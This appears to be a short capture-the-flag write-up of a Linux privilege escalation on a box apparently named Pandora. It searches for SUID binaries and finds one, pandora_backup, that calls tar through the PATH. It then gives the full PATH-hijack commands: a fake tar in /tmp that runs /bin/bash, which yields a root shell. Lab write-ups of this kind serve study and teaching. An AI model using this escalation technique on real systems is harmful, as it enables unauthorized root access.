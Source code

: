 We search for SUID bits with

`find / -user root -perm /4000 2>/dev/null`

We find that there is a sus file: `/usr/bin/pandora_backup`

Can't analyze with `strings` so I wget it from attacker machine

I find that it is using `tar` to backup files

We are also able to overwrite $PATHS

We can just create a new `tar` in the `/tmp` directory

```
cd /tmp
echo "/bin/bash" > tar
chmod 777 tar
echo $PATH
export PATH=/tmp:$PATH
```

Run the `pandora_backup` utility again and we have root
